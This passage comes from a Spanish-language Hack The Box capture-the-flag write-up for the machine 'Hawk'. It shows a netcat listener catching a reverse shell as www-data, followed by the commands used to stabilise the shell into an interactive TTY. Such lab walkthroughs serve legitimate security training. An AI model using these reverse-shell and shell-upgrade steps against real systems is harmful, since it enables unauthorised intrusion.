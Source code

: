 <p align="center">
<img src="/assets/hackthebox/img/machines/medium/hawk/8.png">
</p>

- Al darle a Save nos llega la shell.

```bash
❯ nc -nlvp 433
listening on [any] 433 ...
connect to [10.10.14.63] from (UNKNOWN) [10.10.10.102] 53012
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

```bash
$ script /dev/null -c bash
Script started, file is /dev/null
www-data@hawk:/var/www/html$ ^Z
[1]  + 25347 suspended  nc -nlvp 433
❯ stty raw -echo; fg
[1]  + 25347 continued  nc -nlvp 433
                                    reset xterm
ENTER
www-data@hawk:/var/www/html$ export TERM=xterm
```

## Shell as Daniel and User flag

- Vemos la flag en el directorio de Daniel.
